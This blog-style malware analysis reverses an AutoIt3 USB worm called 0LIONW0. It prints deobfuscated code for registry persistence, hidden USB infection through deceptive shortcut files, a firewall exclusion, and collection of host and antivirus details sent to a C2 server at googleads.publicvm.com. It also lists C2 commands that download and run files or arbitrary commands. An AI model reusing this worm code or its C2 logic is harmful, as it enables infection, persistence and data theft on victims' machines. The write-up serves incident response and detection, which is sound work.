



---
tags:
  - Reverse Engineering
  - Malware Analysis
  - AutoIt
  - USB Malware
  - Worming
---

# 202306 - AutoIt3 based USB Malware: The 0LIONW0 Worm (aka AutoIt.OTORUN.AC)

---

## Overview

Recently I have come a across with an interesting USB infection based on AutoIt3. In the case, I reversed the compiled script to dig out the intention, analyze the C2 commands and indicators of compromise. 

Using AutoIt as Malware is a very old technique - as old as 2012 with reference to a [McAfee](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/autoit-and-malware-whats-the-connection/) blog. However as a case study, it is valuable to find out how it can be leveraged, and as a analyst how you can dig deeper to get a better understanding.

The exact same malicious `.a3x` was tracked as earliest as in 2019, with reference to the [VirusTotal sample](https://www.virustotal.com/gui/file/db8865f4b45076508764a4fc92224a074e92bed4a8798604b8f7066b04316cd5/details) and [Worm.AutoIt.OTORUN.AC | threat encyclopedia from TrendMicro](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/worm.autoit.otorun.ac) - still having victim in 2023 due to the worming capability!

<br/>

---

## The samples - MicrosoftSecurity.exe & Microsoft.a3x

A sample of the malware was obtained in an infected machine. As a contextual background, the infected machine had been triaged and was quickly identified that the user inserted a USB thumb right before the machine started some suspicious activities.

Getting the sample, let's check some general information:





- On the **Description**, it gives us an indication of AutoIt. Indeed, when checking the filehash on [VirusTotal](https://www.virustotal.com/gui/file/fb73a819b37523126c7708a1d06f3b8825fa60c926154ab2d511ba668f49dc4b/details), it is indeed a copy of AutoIt.

With this file - it is also expected that there will be an actual `.a3x` file - the AutoIt3 compiled script. Generally speaking, the malware can be invoked by running the following command or other equivalent:

```
MicrosoftSecurity.exe something.a3x
```

Checking the file system, indeeded a sample of `.a3x` script was found as `Microsoft.a3x`. Sample in [VirusTotal](https://www.virustotal.com/gui/file/db8865f4b45076508764a4fc92224a074e92bed4a8798604b8f7066b04316cd5)

<br/>

---

## Capabilities Summary

1. Infection: Through clicking weaponized LNK files / Inserting autorun infected USB drive
2. Worming activity: The malware will spread by infecting all active USB drives on the victim machines
3. Persistence capabilities: 
    - Add multiple `RUN` keys in `HKLM` and `HKCU`
    - Add a LNK file to Windows startup folder to run AutoIt with the malicious script
4. C2:
    - C2 server: `googleads.publicvm.com:223` without encryption
    - `DL`: Download a file from an arbitrary URL and execute it in %TEMP%
    - `un`: Remove the persistence and remove the entry for allowing AutoIt traffic to pass through
    - `cmd`: Run an arbitrary CMD command
5. Exfiltration: The malware will exfiltrate the host information, including: hostname, OS version, OS architecture, Anti-Virus in use, current user name, etc.

<br/>

---

## De-compiling the AutoIt3 script

[Exe2Aut](https://exe2aut.com/) was used to decompile the script. It is a GUI application and the process of decompiling is strictforwarding - simply move the PE file and choose the compiled `.a3x` file and you will get the decompiled script:



<br/>

---

## Deobfuscation

The [decompiled script](#decompiled-script) itself is highly obfuscated - all the variables with random characters and the values assigned are obfuscated using many `String()` and `ChrW()` functions.

In so, it is just a matter of time to deobfuscate with `Find & Replace` magic - may possibly automate somehow. In this case, I manually got the job done with the help of [**OnlineGDB**](https://www.onlinegdb.com/online_vb_compiler) - since the script works almost exactly the same as VB scripts.

During the renaming, we repetitively rename variables. To make it easier to reference, I prefer to use the naming convension `<type>_<value>` - for example, `string_Microsoft`. For functions, we will use `funct_<usage>` for the same reason.

<br/>

---

## Analysis

After the deobfuscation, we get the [deobfuscated script](#deobfuscated-script) - note that it is not fully functional nor fully deobfuscated - the objective is to get enough information as we can respond fully to scope & contain the incident at hand:

1. Intentions & capabilities
2. Malware logic

<br/>

### Analysis 1: Global Variables

In the declared global variables, we may see some key information which can be used as indicators of compromise (IOCs):

```
Global $susp_domain_1 = "googleads.publicvm.com"
Global $string_C:\MicrosoftSecurity = "C:\MicrosoftSecurity"
Global $susp_file_lnk_1 = "MicrosoftCMD.lnk"
Global $string_microsoft = "Microsoft"
Global $string_microsoftsecurity = "Microsoft Security"
Global $string_microsoftsecurity_exe = "MicrosoftSecurity.exe"
Global $string_vbs = "vbs"
Local $string_zeus = "Zeus"
$string_zeus &= "_" & Hex(DriveGetSerial(@HomeDrive))
Global $string_0.4x = "0.4x"
If FileExists("C:\MicrosoftSecurity/Microsoft.lnk") Then
	$string_0.4x = "0.4x Usb"
EndIf
$string_Microsoft.a3x = "Microsoft.a3x"
$string_0LIONW0 = "0LIONW0"
```

Network indicators:

- Suspected C2 domain: `googleads.publicvm.com`

File system indicators:

- Existence of the folder: `C:\MicrosoftSecurity`
- Existence of the LNK file: `MicrosoftCMD.lnk` / `C:\MicrosoftSecurity/Microsoft.lnk`

Malware unique identifier string: `0LIONW0`

Later we will see how the malware uses the above discovered strings.

<br/>

### Analysis 2: The first IF-condition

```
If @ScriptDir <> $string_C:\MicrosoftSecurity AND $int_4 = 4 Then
	If $string_vbs = "exe" Then
		FileCopy(@AutoItExe, $jbwklcjcaewtgpgszopzykmpwnarnhcrstdgofpsjelsafyvywtx, 9)
		Run($jbwklcjcaewtgpgszopzykmpwnarnhcrstdgofpsjelsafyvywtx)
	Else
		DirCopy(@ScriptDir, "C:\Microsoft", 1)
		ShellExecute("C:\MicrosoftSecurity\MicrosoftSecurity.exe C:\MicrosoftSecurity\Microsoft.a3x" , @SW_HIDE)
		ShellExecute("cmd.exe /c start C:\MicrosoftSecurity/MicrosoftSecurity.exe C:\MicrosoftSecurity\Microsoft.a3x", "", "", @SW_HIDE)
	EndIf
	FileSetAttrib("C:\MicrosoftSecurity", "+RSH") // Read, System file, Hidden
	Exit
EndIf
```

- `$string_vbs = "exe"` will always return `false` since it is statically assigned as `vbs` - in so the **Else** branch will run
- It first copies all files in the running script directory to `C:\MicrosoftSecurity`
- Then a `cmd.exe` will be launched to run AutoIt3 with the compiled script (twice - could be for fault-tolerance)
- For files hiding, it will also set the directory to be 'READ-ONLY', 'SYSTEM' and 'HIDDEN'

<br/>

### Analysis 3: Function invoked - Reset

Next, the script invokes the following function:

```
setFirewallExclusion_DeleteLNK_RemovePersistenceRegKey()
```

The function is broken down as follows:

```
    EnvSet("SEE_MASK_NOZONECHECKS")
    ShellExecute("netsh " & @AutoItExe & " " & "MicrosoftSecurity.exe" & "" ENABLE"", "", "", @SW_HIDE)
	If @error Then
	EndIf
```

- Set an environment variable as an "infected flag"
- Run `netsh` to add firewall exclusion for `MicrosoftSecurity.exe`

```
	$string_C:\GoogleChrome = "C:\GoogleChrome"
	$string_C:\MozillaFirefox = "C:\MozillaFirefox"
	ProcessClose("GoogleChrome.exe")
	ProcessClose("Mozilla.exe")
	Sleep(999)
	FileDelete("C:\GoogleChrome\GoogleChrome.a3x")
	FileDelete("C:\GoogleChrome\GoogleChrome.exe")
	FileDelete("C:\GoogleChrome\GoogleChrome.lnk")
	FileDelete("C:\GoogleChrome\My Pictures.lnk")
	FileDelete("C:\GoogleChrome\GoogleUpdate.lnk")
	FileDelete("C:\GoogleChrome\My Music.lnk")
	FileDelete("C:\GoogleChrome\WindowsUpdate.lnk")
	If ProcessExists("Mozilla.exe") Then
		ProcessClose("Mozilla.exe")
	EndIf
	FileDelete("C:\GoogleChrome\Mozilla.exe")
	FileDelete("C:\GoogleChrome\Mozilla.vbs")
	FileDelete("C:\GoogleChrome\Mozilla.vb")
	FileDelete("C:\MozillaFirefox\GoogleChrome.a3x")
	FileDelete("C:\MozillaFirefox\GoogleChrome.exe")
	FileDelete("C:\MozillaFirefox\GoogleChrome.lnk")
	FileDelete("C:\MozillaFirefox\My Pictures.lnk")
	FileDelete("C:\MozillaFirefox\GoogleUpdate.lnk")
	FileDelete("C:\MozillaFirefox\My Music.lnk")
	FileDelete("C:\MozillaFirefox\WindowsUpdate.lnk")
	If ProcessExists("Mozilla.exe") Then
		ProcessClose("Mozilla.exe")
	EndIf
	FileDelete("C:\MozillaFirefox\Mozilla.exe")
	FileDelete("C:\MozillaFirefox\Mozilla.vbs")
	FileDelete("C:\MozillaFirefox\Mozilla.vb")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "JavaUpdate")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "AdopeUpdate")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "NewJavaInstall")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "AdopeFlash")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "WindowsUpdate.lnk")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "WindowsUpdate.lnk")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "GoogleChrome.exe")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "GoogleChrome.exe")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Google Chrome")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Google Chrome")
EndFunc
```

- The script terminates `GoogleChrome.exe` and `Mozilla.exe`
- Then it removes specific `exe` / `vbs` / `a3x` / `lnk` residing in the suspicious folder paths:
    - `C:\GoogleChrome`
    - `C:\MozillaFirefox`
- Finally, some HKCU and HKLM run keys are removed, with the key name being legit processes like `JavaUpdate`, `AdopeFlash` (typo `Adobe`), `WindowsUpdate`, etc - in attempt to hide in plain sight

Note these can all be used as indicators of compromise.

<br/>

### Analysis 4: Function to set things up

Then the function `RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()` is invoked.

```
Func RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()
	$execute_MicrosoftSecurity.exe /AutoIt3ExecuteScript Microsoft.a3x = "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x"
	$string_MicrosoftCMD = StringRegExpReplace("MicrosoftCMD.lnk", "\.[^\.\\/]*$", "")  // Should be outputting "MicrosoftCMD"
	$execute_MicrosoftCMD Microsoft.a3x = "@ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x"
	$string_@ScriptDir\MicrosoftCMD.lnk = "@ScriptDir\MicrosoftCMD.lnk"
```

- The function starts with declaring some variables for static strings and commands for running AutoIt3 with the script

```
	If RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run, "Microsoft Security", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead(HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Office") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", Microsoft Office", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "HDAudio") <> $string_@ScriptDir\MicrosoftCMD.lnk Then
		RegWrite("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "HDAudio", "REG_SZ", "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver) <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver", "REG_SZ", "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If FileExists("@StartupCommonDir\MicrosoftCMD.lnk) = False Then
		FileCreateShortcut("cmd.exe", "@StartupCommonDir\Microsoft Security.lnk", "", "/c start @ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x & exit")
	EndIf
	If FileExists("@StartupCommonDir\MicrosoftUpdate.lnk") = False Then
		FileCreateShortcut("@ScriptDir\MicrosoftSecurity.exe", "@StartupCommonDir\MicrosoftUpdate.lnk", "", "/AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If @error Then
	EndIf
```

- Some additional files and keys which does not exist in [Analysis 43](#analysis-3-function-invoked---reset) will be created in these if-branches.
- Also, the above files / reg keys can be IOCs as well.

<br/>

### Analysis 5: Setting things up 2

Then the function `RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()` is invoked. This reason to invoke this is similar to [Analysis 4](#analysis-4-function-to-set-things-up).

```
Func RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()
	$execute_MicrosoftSecurity.exe /AutoIt3ExecuteScript Microsoft.a3x = "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x"
	$string_MicrosoftCMD = StringRegExpReplace("MicrosoftCMD.lnk", "\.[^\.\\/]*$", "")  // Should be outputting "MicrosoftCMD"
	$execute_MicrosoftCMD Microsoft.a3x = "@ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x"
	$string_@ScriptDir\MicrosoftCMD.lnk = "@ScriptDir\MicrosoftCMD.lnk"
	If RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run, "Microsoft Security", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead(HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Office") <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", Microsoft Office", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana")) <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana", "REG_SZ", "@ScriptDir\MicrosoftUpdate.lnk")
	EndIf
	If RegRead("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "HDAudio") <> $string_@ScriptDir\MicrosoftCMD.lnk Then
		RegWrite("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "HDAudio", "REG_SZ", "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver) <> "@ScriptDir\MicrosoftCMD.lnk" Then
		RegWrite("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver", "REG_SZ", "@ScriptDir\MicrosoftSecurity.exe /AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If FileExists("@StartupCommonDir\MicrosoftCMD.lnk) = False Then
		FileCreateShortcut("cmd.exe", "@StartupCommonDir\Microsoft Security.lnk", "", "/c start @ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x & exit")
	EndIf
	If FileExists("@StartupCommonDir\MicrosoftUpdate.lnk") = False Then
		FileCreateShortcut("@ScriptDir\MicrosoftSecurity.exe", "@StartupCommonDir\MicrosoftUpdate.lnk", "", "/AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
	If @error Then
	EndIf
EndFunc
```

<br/>

### Analysis 6: Create malicious LNK files for running the AutoIt script

Then the function `CreateScriptDirLNKFiles()` is invoked.

```
Func CreateScriptDirLNKFiles()
	If FileExists("@ScriptDir\MicrosoftUpdate.lnk") = False Then
		FileCreateShortcut("cmd.exe", "@ScriptDir\MicrosoftUpdate.lnk", " ", "/c start @ScriptDir\MicrosoftSecurity.exe @ScriptDir\Microsoft.a3x & exit")
	EndIf
	If FileExists("@ScriptDir\MicrosoftSecurity.lnk") = False Then
		FileCreateShortcut("@ScriptDir\MicrosoftSecurity.exe", "@ScriptDir\MicrosoftUpdate.lnk", " ", "/AutoIt3ExecuteScript @ScriptDir\Microsoft.a3x")
	EndIf
EndFunc
```

- This reveals the purpose of the `LNK` files above - invoke AutoIt3 to run the malicious script
- It simply checked if the above LNK files exist the current running script location and create if not
- Of course the naming is misleading!

<br/>

### Analysis 7: Infecting all USB storages

The `UnsetShowhiddenInfectAllUSBwithLNKFiles("ALL")` function is intended to infect all USB devices used in the current machine.

```
Func UnsetShowhiddenInfectAllUSBwithLNKFiles($string_REMOVEABLE = "REMOVABLE")
	$string_Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x = "Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x"
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced", "ShowSuperHidden", 0)
	$array_removable_drives = DriveGetDrive("REMOVABLE")
	
	// Loop through all active REMOVABLE Drives, check if "x:\Microsoft" exists, if not make it
	If IsArray($array_removable_drives) Then
		For $i = 1 To $array_removable_drives[0]
			If DriveStatus($array_removable_drives[$i]) = "READY" Then
				If DriveSpaceFree($array_removable_drives[$i]) > 10 Then
					If FileExists($array_removable_drives[$i] & "\Microsoft") = 0 Then FileDelete($array_removable_drives[$i] & "\Microsoft")
					DirCopy(@ScriptDir, $array_removable_drives[$i] & aString("\") & "Microsoft", 1)
					FileSetAttrib($array_removable_drives[$i] & "\Microsoft", "+RSH")
					Local $varFirstFile = FileFindFirstFile($array_removable_drives[$i] & "\*.*")
					While 1
						Dim $varNextFile = FileFindNextFile($varFirstFile)
						If $varNextFile = "" Then ExitLoop
						If StringInStr(FileGetAttrib($array_removable_drives[$i] & aString("\") & $varNextFile), "D") AND ($varNextFile <> "." OR $varNextFile <> "..") Then
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\$varNextFile", "", "/c start ..\Microsoft\MicrosoftSecurity.exe"  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Music", "", "/c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD%  & exit", "",  "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Pictures"), "", /c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Reports"), "", /c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut("cmd.exe", "$array_removable_drives[$i]\$varNextFile\Statements"), "", /c start ..\Microsoft\MicrosoftSecurity.exe  /AutoIt3ExecuteScript  ..\Microsoft\Microsoft.a3x & explorer  %CD% & exit", "", "%windir%\system32\SHELL32.dll", "", 3, @SW_SHOWMINNOACTIVE)
						EndIf
						Sleep(40)
					WEnd
				EndIf
			EndIf
		Next
	EndIf
	If @error Then
	EndIf
EndFunc
```

- It first reset the **Explorer.exe** preference of "show hidden files" so the user may not notice the hidden folders / files when browsing
- Then it loops through all USB storage and see if there is a folder in root called `Microsoft`. If not, create a hidden one and add some misleading shortcut files for, again invoking the malicious AutoIt script.

<br/>

### Analysis 8: Create malicious LNK files with directories in other USB devices and notify C2

Then the script invokes `CreateDocuments_Downloads_LNK_CreateDir_Reports|Statements|My Pictures|My Videos|My Pictures|My Videos()`.

This function works similarly to [Analysis 7](#analysis-7-infecting-all-usb-storages).

After the creation, it notifies the C2 of successfully spreading the malware to other USB devices:

```
				If FileExists("$array_RemovableDrives[$i]\My Videos") = False Then
					DirCreate("$array_RemovableDrives[$i]\My Videos")
					C2Exfiltrate("MSG0LIONW0 Spreading !!")
				EndIf
```

The function `C2Exfiltrate()` simply twists a payload a bit and sends to TCP message to the C2 server. Note the C2 message `MSG0LIONW0 Spreading !!` can be used for IDS detection.

<br/>

### Analysis 9: The main function while-loop

First, when the script is run in the first time, the script invokes 2 functions to make sure the initialization has been performed; it will perform again after 4 iterations.

```
	$int_4 += 1
	If $int_4 = 5 Then
		$int_4 = 0
		RunAutoItScript_SetPersistenceKeys_CreateStartupCommonLNK()
		CreateDocuments_Downloads_LNK_CreateDir_Reports|Statements|My Pictures|My Videos|My Pictures|My Videos()
	EndIf
```

<br/>

Then there is a `TCPRecv()` function call for receiving the command from the C2:

```
Func TCPRecv()
	If $int_-1 < 1 Then
		$int_0 = 1
		Return -1
	EndIf
	If @error Then
	EndIf
	$callTCPRecviver = TCPRecv($int_-1, 1024, 0)
	If @error Then
		$int_0 = 1
		Return -1
	EndIf
	$string_"" &= $callTCPRecviver
	
	// Check if "\r\n" exists in the received message
	If StringInStr($string_"", $string_\r\n) Then
		$array_tcp_received = StringSplit($string_"", "\r\n")
		$callTCPRecviver = $array_tcp_received[1]
		$rn_position = StringInStr($string_"", $string_\r\n)
		$rn_position += StringLen(String($string_\r\n))
		$msgLength = StringLen($string_"")
		$string_"" = StringMid($string_"", $rn_position, $msgLength - $rn_position)
		Return $callTCPRecviver
	EndIf
	Return ""
EndFunc
```

#### C2 Command 1: Error receiving commands

```
		Case $messageReceivedFromTCPRecv = -1 OR $int_0 = 1
			Sleep(3000)
			C2CommandDef()
			// C2 callback with "lv|zeus|ComputerName|UserName||OSVersion OSArch|0.4x usb|AV_NAME|"
			C2Exfiltrate("lv0LIONW0zeus0LIONW0@ComputerName0LIONW0@UserName0LIONW0""$string_0LIONW0@OSVersion @OSArch0LIONW00.4x0LIONW0 & getAVNameFromWMI() & $string_0LIONW0 & "")
```

- First the script process will sleep for 3000 ms
- The script will send the client information: `ComputerName`, `UserName`, `OSVersion`, `OSArch`, `AVName` to the C2
- Note the separator used `0LIONW0` - this again can be used as IDS signature

Also note that the `AV_NAME` is obtained using WMI command:

```
Func getAVNameFromWMI()
	Local $avname
	If @OSVersion = "WIN_XP" Then
		$owmi = ObjGet("winmgmts:\\localhost\root\SecurityCenter")
	Else
		$owmi = ObjGet("winmgmts:\\localhost\root\SecurityCenter2")
	EndIf
	$colitems = $owmi.execquery("Select * from AntiVirusProduct")
	For $objantivirusproduct In $colitems
		$avname = $objantivirusproduct.displayname
	Next
	If $avname = False Then
		Return "No-AntiVirus"
	Else
		Return $avname
	EndIf
EndFunc
```

Also note the C2 function:

```
Func C2CommandDef()
	$int_0 = 0
	TCPCloseSocket($int_-1)
	If @error Then
	EndIf
	TCPShutdown()
	If @error Then
	EndIf
	TCPStartup()
	If @error Then
	EndIf
	$int_-1 = -1
	// Connect to googleads.publicvm.com:223
	$int_-1 = TCPConnect(TCPNameToIP("googleads.publicvm.com"), 223)
	If @error Then
	EndIf
	$int_0 = 0
EndFunc
```

